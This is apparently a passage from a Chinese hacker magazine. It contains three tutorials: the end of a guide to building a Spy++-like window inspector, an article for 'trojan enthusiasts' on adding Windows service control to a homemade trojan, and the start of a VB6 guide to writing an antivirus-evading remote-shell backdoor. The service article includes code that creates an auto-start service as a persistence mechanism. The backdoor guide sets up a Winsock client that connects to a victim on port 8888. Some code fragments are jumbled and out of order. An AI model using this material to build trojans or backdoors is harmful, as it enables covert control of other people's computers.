unsigned long iPID=0;
GetWindowThreadProcessId(g_hWnd,&iPID);
((CPage0*)FromHandle(g_hPage0))->m_editPID.SetWindowText(Display((int)iPID));
CString strPath;
strPath=getProcPath(iPID);
((CPage0*)FromHandle(g_hPage0))->m_editPATH.SetWindowText(strPath);
RECT rc;
GetWindowRect(g_hWnd, &rc);
CString strRect;
strRect.Format("(%d,%d),(%d,%d) %dx%d", rc.left, rc.top, rc.right, rc.bottom,
               rc.right-rc.left, rc.bottom-rc.top);
((CPage0*)FromHandle(g_hPage0))->m_editRECT.SetWindowText(strRect);
```

其中，`getProcPath` 是获取进程文件路径的函数。获取进程路径的方法有两种，在 NT 系统中可以先用 `OpenProcess()` 打开进程，再用 `EnumProcessModules()` 枚举模块，最后通过 `GetModuleFileNameEx()` 取得进程路径。第二种方法是使用 ToolHelp API 相关函数，兼容 Windows 9x 和 NT4.0 以后系统，本文采用此法。

```cpp
CString getProcPath(int PID)
{
    HANDLE hModule;
    MODULEENTRY32* minfo = new MODULEENTRY32;
    minfo->dwSize = sizeof(MODULEENTRY32);
    hModule = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, PID);
    Module32First(hModule, minfo);
    CString str;
    str.Format("%s", minfo->szExePath);
    CloseHandle(hModule);
    if(minfo) delete minfo;
    return str;
}
```

##### 样式标签页

样式标签页设计如图2所示。API 函数 `GetWindowLong` 可以获取窗口样式或扩展样式的值。通过枚举以 `WS_` 开头的样式名并与样式值做“位与”运算，可得到窗口样式列表；扩展样式列表与之类似。



图2

样式值做“位与”操作，如果被包含则返回其窗口样式，否则返回 0。这样即可得到窗口样式列表。扩展样式列表与样式列表类似。相关代码如下所示。

```cpp
CListBox* pListStyle=(CListBox*)((CPage1*)FromHandle(g_hPage1))->GetDlgItem(IDC_LIST_STYLE);
CListBox* pListExStyle=(CListBox*)((CPage1*)FromHandle(g_hPage1))->GetDlgItem(IDC_LIST_EX_STYLE);
CEdit* pEditStyle=(CEdit*)((CPage1*)FromHandle(g_hPage1))->GetDlgItem(IDC_EDIT_STYLE);
CEdit* pEditExStyle=(CEdit*)((CPage1*)FromHandle(g_hPage1))->GetDlgItem(IDC_EDIT_EX_STYLE);
long style = GetWindowLong(g_hWnd, GWL_STYLE);
long styleEx = GetWindowLong(g_hWnd, GWL_EXSTYLE);
pEditStyle->SetWindowText(Display((int)style));
pEditExStyle->SetWindowText(Display((int)styleEx));
pListStyle->ResetContent();
pListExStyle->ResetContent();
if (style & WS_BORDER) pListStyle->AddString("WS_BORDER");
if (style & WS_CAPTION) pListStyle->AddString("WS_CAPTION");
if (style & WS_CHILD) pListStyle->AddString("WS_CHILD");
...
```

##### 类标签页

类标签页的设计如图3所示。类名在常规标签页已获取。API 函数 `GetClassLong` 可获取类样式值。样式列表实现与窗口样式类似，不再赘述。

##### 窗口标签页

窗口标签页的设计如图4所示。在该页中，主要使用了如下 API 函数：`GetNextWindow` 等。



图3


图4

GetWindow 和 SendMessage 这三个 API 函数搭配以不同的参数值可以实现不同的功能。这里没有用 GetWindowText 函数，是因为它不能取出部分系统窗口和隐藏窗口的标题。我们用 SendMessage 函数加 WM_GETTEXT 参数取代它。实现代码如下。

```cpp
CPage3* pPage3=(CPage3*)FromHandle(g_hPage3);
HWND tempHandle;
char tempstr[255]="\0";
tempHandle = g_hWnd;   // 本窗口句柄
pPage3->SetDlgItemText(IDC_MYHWND, Display((int)tempHandle));
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_MYTITLE, tempstr);

// 上一窗口
tempHandle = ::GetNextWindow(g_hWnd, GW_HWNDPREV);
pPage3->SetDlgItemText(IDC_PREVHWND, Display((int)tempHandle));
memset(tempstr,0,255);
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_PRETITLE, tempstr);

// 下一窗口
tempHandle = ::GetNextWindow(g_hWnd, GW_HWNDNEXT);
pPage3->SetDlgItemText(IDC_NEXTHWND, Display((int)tempHandle));

memset(tempstr,0,255);
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_NEXTTITLE, tempstr);

tempHandle = ::GetParent(g_hWnd);   // 父窗口
pPage3->SetDlgItemText(IDC_PARENTHWND, Display((int)tempHandle));
memset(tempstr,0,255);
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_PARENTTITLE, tempstr);

// 第一子窗口
tempHandle = ::GetWindow(g_hWnd, GW_CHILD);
pPage3->SetDlgItemText(IDC_CHILDHWND, Display((int)tempHandle));
memset(tempstr,0,255);
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_CHILDTITLE, tempstr);

// 所有者窗口
tempHandle = ::GetWindow(g_hWnd, GW_OWNER);
pPage3->SetDlgItemText(IDC_OWNERHWND, Display((int)tempHandle));
memset(tempstr,0,255);
::SendMessage(tempHandle, WM_GETTEXT, 255, (LPARAM)tempstr);
pPage3->SetDlgItemText(IDC_OWNERTITLE, tempstr);
```

##### 消息标签页

消息标签页的设计如图5所示。该页中的列表框与样式列表框不同，它的每个列表项前都有一个复选框。



图5

这要用到类 CCheckListBox。这里要再次用到子类化的知识。在本文第一段制作 CMyPic 的过程中，我们体会到了子类化的作用，也感到了它的不便之处。这里，我们采取另外一种方法，即用 Class Wizard 生成相关代码，然后再修改它。首先在该属性页对话框上画一个列表控件，打开 Class Wizard 关联一个 CListBox 类变量 m_listStatus，设置列表框的 Owner Draw 属性为 Fixed，并选中其 Has Strings 选项，如图6所示。然后，在 Page4.h 中查找到 m_listStatus 的定义并继续扩展。

图6

定义 `CListBox m_listStatus`，并将其改为 `CCheckListBox m_listStatus`。这样，我们就可以使用 `CCheckListBox` 的全部函数了。

在对话框初始化过程中添加下列语句可以加入各列表项：

```cpp
CCheckListBox* plistStatus=((CCheckListBox*)FromHandle(g_hPage4)->GetDlgItem(IDC_LISTSTATUS));
plistStatus->AddString("窗口可见");
plistStatus->AddString("窗口可用");
plistStatus->AddString("总在最前");
plistStatus->AddString("窗口只读");
plistStatus->AddString("最大化");
plistStatus->AddString("最小化");
plistStatus->AddString("窗口还原");
plistStatus->AddString("关闭窗口");
plistStatus->AddString("激活窗口");
```

接下来我们要判断，当窗口/控件被选定后，哪些列表项被勾选。这个判断过程与样式列表的实现类似。如第一项“窗口可见”，其代码如下所示，其余各项详见源代码。

```cpp
long style = GetWindowLong(g_hWnd, GWL_STYLE);
if(style & WS_VISIBLE)
{
    plistStatus->SetCheck(0,1);
}
```

这个列表框的作用不仅仅是显示窗口的状态，还要在发生勾选改动时即时改变窗口状态或激发其行为。勾选状态改变的消息是 `BN_SELCHANGE`。另外，为了不使一个勾选的改变就引起所有列表项都激发一遍，我们采用 `switch` 结构，以使哪个列表项被选中就激发哪个列表项。实现代码如下。

```cpp
void CPage4::OnSelchangeListstatus()
{
    // TODO: Add your control notification handler code here
    int n = m_listStatus.GetCurSel();
    switch(n)
    {
    case 0:
        if(m_listStatus.GetCheck(0)==1)
            ::ShowWindow(g_hWnd, SW_SHOW);
        else
            ::ShowWindow(g_hWnd, SW_HIDE);
        break;
    ...
    }
}
```

```cpp
case 1:
    if(m_listStatus.GetCheck(1)==1)
        ::EnableWindow(g_hWnd, TRUE);
    else
        ::EnableWindow(g_hWnd, FALSE);
    break;
case 2:
    if(m_listStatus.GetCheck(2)==1)
        ::SetWindowPos(g_hWnd, HWND_TOPMOST,0,0,0,0,SWP_NOMOVE|SWP_NOSIZE);
    else
        ::SetWindowPos(g_hWnd, HWND_NOTOPMOST,0,0,0,0,SWP_NOMOVE|SWP_NOSIZE);
    break;
case 3:
    if(m_listStatus.GetCheck(3)==1)
        ::SendMessage(g_hWnd, EM_SETREADONLY, TRUE, 0);
    else
        ::SendMessage(g_hWnd, EM_SETREADONLY, FALSE, 0);
    break;
case 4:
    if(m_listStatus.GetCheck(4)==1)
    {
        ::ShowWindow(g_hWnd, SW_MAXIMIZE);
        m_listStatus.SetCheck(5,0);
    }
    else
        ::ShowWindow(g_hWnd, SW_RESTORE);
    break;
case 5:
    if(m_listStatus.GetCheck(5)==1)
    {
        ::ShowWindow(g_hWnd, SW_MINIMIZE);
        m_listStatus.SetCheck(4,0);
    }
    else
        ::ShowWindow(g_hWnd, SW_RESTORE);
    break;
case 6:
    if(m_listStatus.GetCheck(6)==1)
    {
        ::ShowWindow(g_hWnd, SW_RESTORE);
        m_listStatus.SetCheck(6,0);
        m_listStatus.SetCheck(5,0);
        m_listStatus.SetCheck(4,0);
    }
    break;
case 7:
    if(m_listStatus.GetCheck(7)==1)
    {
        ::SendMessage(g_hWnd, WM_CLOSE, 0, 0);
        m_listStatus.SetCheck(7,0);
    }
    break;
case 8:
    if(m_listStatus.GetCheck(8)==1)
    {
        ::BringWindowToTop(g_hWnd);
        m_listStatus.SetCheck(8,0);
    }
    break;
default:
    ;
```

至此，我们自己的 Spy++ 程序就打造完成了。回顾整个过程，难点不多，但知识点不少，且细节问题也较多，大家若有不懂的地方，可以仔细研究以下源代码。文中一定还有很多地方考虑不够周全，希望读者朋友们能不吝赐教。以上代码在 Windows XP + VC6.0 中调试通过。

适合读者：编程爱好者、木马爱好者

前置知识：VC++

#### 木马编程 DIY 之系统服务

##### 一、入侵系统中的服务进程

对系统服务的管理几乎是目前木马必不可少的功能，比如“神气儿”、“上兴远程控制”等，都提供了此项服务。要是我们能给自己编写的木马也加上这个功能，看着也不赖哦。好啦，废话不多说，下面开始干活！我们的木马要实现的效果如图1和图2所示。

对于系统服务的管理，通常情况下我们是以完全权限打开的。要实现这个功能，我们可以使用下面的代码来操作：

图1

```cpp
SC_HANDLE scm;
SC_HANDLE service;
if((scm=OpenSCManager(NULL,NULL,
SC_MANAGER_ALL_ACCESS))==NULL)
    Printf("OpenSCManager Error!\n");

service=OpenService(scm,ServerName,
SERVICE_ALL_ACCESS);
if(!service)
{
    Printf("OpenService error!\n");
}
```

这样，就可以通过 Service 句柄对服务进行各种操作了。

图2

##### 获取配置权限

在对服务进行管理设置前，我们需要以相应的权限打开服务，本文通过下面的两个 API 来实现操作。

##### 枚举基本服务信息

想要对服务进行设置，就需要知道服务的当前信息。其中对我们有用的通常是以下几项：

- 服务名称
- 显示名称
- 启动状态
- 启动方式
- 程序路径

这些信息我们可以通过 API 函数 `EnumServicesStatus` 来实现，它的原型如下：

```cpp
SC_HANDLE OpenSCManager(
    LPCTSTR lpMachineName,
    // pointer to machine name string
    LPCTSTR lpDatabaseName,
    // pointer to database name string
    DWORD dwDesiredAccess  // type of access
);

SC_HANDLE OpenService(
    SC_HANDLE hSCManager,
    // handle to service control manager database
    LPCTSTR lpServiceName,
    ...
);
```

```cpp
BOOL EnumServicesStatus(
    SC_HANDLE hSCManager,
    // handle to service control manager database
    DWORD dwServiceType,
    // type of services to enumerate
    DWORD dwServiceState,
    // state of services to enumerate
    LPENUM_SERVICE_STATUS lpServices,
    // pointer to service status buffer
    DWORD cbBufSize,
    // size of service status buffer
    ...
);
```

```c
LPDWORD pcbBytesNeeded;
// pointer to variable for bytes needed
LPDWORD lpServicesReturned;
// pointer to variable for number returned
LPDWORD lpResumeHandle;
// pointer to variable for next entry
```

在上面的代码中，`LPENUM_SERVICE_STATUS lpServices` 是一个结构，其原型如下：

```c
typedef struct _ENUM_SERVICE_STATUS {
  LPTSTR lpServiceName;
  LPTSTR lpDisplayName;
  SERVICE_STATUS ServiceStatus;
} ENUM_SERVICE_STATUS, *LPENUM_SERVICE_STATUS;
```

这个结构中包含服务名称、显示名称、启动状态。虽然它所返回的信息是极为有限的，但它是一次枚举所有的服务信息。在要求不高的情况下，用它还是相当方便的。下面的示例代码可以枚举系统中所有服务的基本信息，实现代码如下所示。

```c
LPENUM_SERVICE_STATUS lpServices = NULL;
DWORD nSize = 0;
DWORD n;
DWORD nResumeHandle = 0;

lpServices = (LPENUM_SERVICE_STATUS)LocalAlloc(LPTR, 64 * 1024);
EnumServicesStatus(scm, SERVICE_WIN32,
  SERVICE_STATE_ALL,
  (LPENUM_SERVICE_STATUS)lpServices,
  64 * 1024, &nSize, &n, &nResumeHandle);

for (i = 0; i < n; i++) {
  printf("服务名称:%s\n", lpServices[i].lpServiceName);
  printf("显示名称:%s\n", lpServices[i].lpDisplayName);
}
```

##### 枚举详细服务信息

如果想要得到更详细的服务信息，我们可以使用另一个 API 函数 `QueryServiceConfig` 来获得，它的原型如下所示。

```c
BOOL QueryServiceConfig(
  SC_HANDLE hService,
  LPQUERY_SERVICE_CONFIG lpServiceConfig,
  DWORD cbBufSize,
  LPDWORD pcbBytesNeeded
);
```

其中 `LPQUERY_SERVICE_CONFIG lpServiceConfig` 也是一个结构，它包含指定服务的详细资料，其原型如下所示。

```c
typedef struct _QUERY_SERVICE_CONFIG {
  DWORD  dwServiceType;
  DWORD  dwStartType;
  DWORD  dwErrorControl;
  LPTSTR lpBinaryPathName;
  LPTSTR lpLoadOrderGroup;
  DWORD  dwTagId;
  LPTSTR lpDependencies;
  LPTSTR lpServiceStartName;
  LPTSTR lpDisplayName;
} QUERY_SERVICE_CONFIG, *LPQUERY_SERVICE_CONFIG;
```

很清楚了吧？服务类型、启动类型、程序路径、服务名称、显示名称尽在其中。而下面的示例代码则可以得到程序路径和启动方式，其代码如下所示。

```c
LPQUERY_SERVICE_CONFIG ServicesInfo = NULL;
for (i = 0; i < n; i++) {
  SC_HANDLE service = NULL;
  service = OpenService(scm, lpServices[i].lpServiceName, SERVICE_ALL_ACCESS);

  ServicesInfo = (LPQUERY_SERVICE_CONFIG)LocalAlloc(LPTR, 64 * 1024);
  QueryServiceConfig(service, ServicesInfo, 64 * 1024, &nResumeHandle);

  printf("程序路径:%s\n", ServicesInfo->lpBinaryPathName);
  if (2 == ServicesInfo->dwStartType) printf("自动\n");
  if (3 == ServicesInfo->dwStartType) printf("手动\n");
  if (4 == ServicesInfo->dwStartType) printf("禁止\n");
}
```

上面的代码，只要大家根据需要稍加修改，就可以用到自己的程序中了。现在，对于服务信息的显示就算完成了。

##### 启动/停止服务

启动一个服务我们可以用 `StartService` 函数来实现，不过在启动前得先用 `QueryServiceStatus` 检查一下服务的运行状态。具体的实现代码如下所示。

```cpp
SERVICE_STATUS status;
BOOL isSuccess=QueryServiceStatus(service,&status);
if (!isSuccess)
{
    Printf("QueryServiceStatus error!\n");
}
if (status.dwCurrentState==SERVICE_STOPPED)
{
    isSuccess=StartService(service,NULL,NULL);
    if (!isSuccess)
    {
        Printf("启动服务失败！");
    }
}
```

下面是停止服务的实现代码。

```cpp
if (status.dwCurrentState!=SERVICE_STOPPED)
{
    isSuccess=ControlService(service,SERVICE_CONTROL_STOP,&status);
    if (!isSuccess)
    {
        Printf("停止服务失败！");
    }
}
```

##### 创建/删除服务

创建服务我们使用的 API 为 `CreateService`，其原型如下所示。

```cpp
SC_HANDLE CreateService(
  SC_HANDLE hSCManager,
  LPCTSTR lpServiceName,
  LPCTSTR lpDisplayName,
  DWORD dwDesiredAccess,
  DWORD dwServiceType,
  DWORD dwStartType,
  DWORD dwErrorControl,
  LPCTSTR lpBinaryPathName,
  LPCTSTR lpLoadOrderGroup,
  LPDWORD lpdwTagId,
  LPCTSTR lpDependencies,
  LPCTSTR lpServiceStartName,
  LPCTSTR lpPassword
);
```

其中 `DWORD dwStartType` 是指启动方式，有 `SERVICE_AUTO_START`（自动）、`SERVICE_DEMAND_START`（手动）和 `SERVICE_DISABLED`（禁用）三种方式。此函数的参数比较多，但我们通常只会用到其中的一部分，比如 `SC_HANDLE hSCManager`（用 `OpenSCManager` 打开的句柄）、`LPCTSTR lpServiceName`（服务名称）、`LPCTSTR lpDisplayName`（显示名称）、`DWORD dwStartType`（启动方式）和 `LPCTSTR lpBinaryPathName`（程序路径），其它的直接赋值为 0 或 `NULL` 就可以了。而下面的代码就可以创建一个名为 `LengFeng`，路径为 `C:\LengFeng.EXE` 的自动服务。

```cpp
void CreateServer()
{
    SC_HANDLE scm=NULL;
    SC_HANDLE service=NULL;
    if((scm=OpenSCManager(NULL,NULL,SC_MANAGER_CREATE_SERVICE))==NULL)
    {
        Printf("OpenSCManager Error!");
    }
    service=CreateService(scm,"LengFeng","LengFeng",
        SERVICE_ALL_ACCESS,SERVICE_WIN32_OWN_PROCESS,
        SERVICE_AUTO_START,SERVICE_ERROR_NORMAL,
        "C:\\LengFeng.EXE",0,0,0,0,0);
    if(!service)
        Printf("服务创建失败");
    CloseServiceHandle(service);
    CloseServiceHandle(scm);
}
```

要实现删除服务则比较容易，我们只要使用 `DeleteService` 即可实现，其代码如下所示。

```c
BOOL DeleteService(SC_HANDLE hService);
```

这里提醒大家一下，`SC_HANDLE hService` 是我们上面用 `OpenService` 打开的服务句柄。在删除服务前，要注意先用“启动/停止服务”中介绍的方法停止正在运行的服务才可以。

##### 配置启动方式

有时候我们需要对服务的启动方式进行更改，比如将 Telnet 改为自动运行，对已存在的服务进行配置等。我们可以用 `ChangeServiceConfig` 来实现，其原型如下所示。

```c
BOOL ChangeServiceConfig(
  SC_HANDLE hService,
  DWORD dwServiceType,
  DWORD dwStartType,
  DWORD dwErrorControl,
  LPCTSTR lpBinaryPathName,
  ...
);
```

```c
// pointer to service binary file name
LPCTSTR lpLoadOrderGroup;
// pointer to load ordering group name
LPDWORD lpdwTagId;
// pointer to variable to get tag identifier
LPCTSTR lpDependencies;
// pointer to array of dependency names
LPCTSTR lpServiceStartName;
// pointer to account name of service
LPCTSTR lpPassword;
// pointer to password for service account
LPCTSTR lpDisplayName; // pointer to display name
```

```c
if (GetLastError() != ERROR_SERVICE_DATABASE_LOCKED)
    printf("LockServiceDatabase error\n");
if (!ChangeServiceConfig(
    service,
    SERVICE_NO_CHANGE,
    SERVICE_DISABLED,
    SERVICE_NO_CHANGE,
    NULL,
    NULL,
    NULL,
    NULL,
    NULL,
    NULL,
    NULL))
{
    printf("ChangeServiceConfig error\n");
}
UnlockServiceDatabase(sclLock);
```

探探眼睛仔细看一下，上面的代码是不是有点面熟？它的参数跟创建服务的 CreateService 就是一样的嘛！这下就好办了。我们把需要的地方改掉，不需要的就放个 NULL 或 SERVICE_NO_CHANGE 就行了。

为了实现安全的更新配置信息，微软要求在执行 ChangeServiceConfig 之前需要用 LockServiceDatabase 来锁定服务数据库。我测试了一下，有时候虽然会锁定失败，但仍然可以实现对服务配置的更改。下面的示例代码，可以把上面创建的 LengFeng 服务的启动方式改为“禁止”，其实现代码如下所示。

```c
SC_LOCK sclLock;
sclLock = LockServiceDatabase(scm);
if (sclLock == NULL)
    ...
```

至此为止，与系统服务相关的操作，我们就搞个八九不离十了。要想把它们加到自己的木马程序中，我们只要设计一个便于网络传输的结构，然后把代码拷进去就差不多了。在写这个小程序时，我将遇到的问题写在了自己的博客 blog.csdn.net/chinafe 中，有兴趣的读者可以跟我一起讨论，或者登录黑防官方论坛一起讨论也可。

- 适合读者：编程爱好者、木马爱好者
- 前置知识：VB

## 尚纷狂攻 VB

## 后门之菜鸟编程



文／图 Morephaze [D.S.G]

有不少人都觉得编程这项技能比较难掌握吧？人常道，VB 是傻瓜的语言，聪明的程序员用 Delphi，真正的程序员用 C。鄙人愚见，无论哪一种语言，只要能帮你实现目的，都是好语言。那么 VB 对我们黑客有什么用呢？我们可以利用 VB 来打造我们自己的后门，因为是自己的代码，逃过杀毒软件自然是不成问题的。下面就为大家介绍一下 VB 编写简约型后门的方法。

在动工之前，还需要向大家说明一些细节。作为一个后门，程序必须保证使用者能够实现对目标主机的控制。很多后门都有一个共同的特点——提供可执行命令的 Shell 连接。其实扩大一下思考范围，只要有了 Shell，我们基本上可以实现足够的功能，所以简约型后门最主要的一个功能就是给用户提供一个 Shell 通道。

##### 客户端编写

启动 VB 6.0 中文版，在弹出的“新建工程”的窗口里选择“标准 EXE”，点击“打开”，这样就开始了我们的编程之旅。

自然少不了网络通讯模块，在 VB 中，只需要用 Winsock 控件就可以实现这一功能。刚进入控件编辑界面的时候，左边的控件栏是没有 Winsock 控件的，我们可以依次点击菜单栏的“工程->部件”勾上 Winsock 控件，如图1所示。添加完部件以后，我们来布局一下程序窗口，按照图2中的布局先绘制好控件，绘制完毕以后就可以开始写我们的核心代码了。


图1


图2

客户端的程序并不复杂，首先我们来了解一下 Winsock 编程的基本原理。远程控制功能是基于客户机/服务器这一模型来实现的，所以程序的编制也应分两部分进行，一部分是服务器端，也就是被控制的一方；另一部分是客户端，也就是控制方。服务器程序要守候在一个固定或不固定的网址（IP）上等待客户端程序的请求；客户端程序则向服务器程序所在的网址请求连接，连接成功后通过交换信息即可得到相应的服务。因此设置 Winsock 属性时，服务器端应设置 LocalPort 和应用 Listen 方法进行监听，客户端则要设置 RemoteHost 和 RemotePort 及应用 Connect 方法来请求连接，并用 SendData 方法互换信息。

原理大概就这些吧，下面来点实在的东西。找到我们刚才添加的 Winsock 控件的默认名称 Winsock1，然后在 Form_Load() 事件中加入如下代码：

```vb
Private Sub Form_Load()
    Winsock1.RemotePort = "8888"
    '设定连接一个8888端口，即服务器要监听的端口
End Sub
```

设定好远程连接端口以后，接下来就开始编写“连接”那个按钮的代码，也就是在 Command1_Click() 事件中添加如下代码：

```vb
Private Sub Command1_Click()
    Winsock1.RemoteHost = Text1.Text
    '定义远程主机地址，这里接受对被控用户输入的IP地址
    Winsock1.Connect Winsock1.RemoteHost, Winsock1.RemotePort
    '根据端口和IP地址发送连接请求
End Sub
```

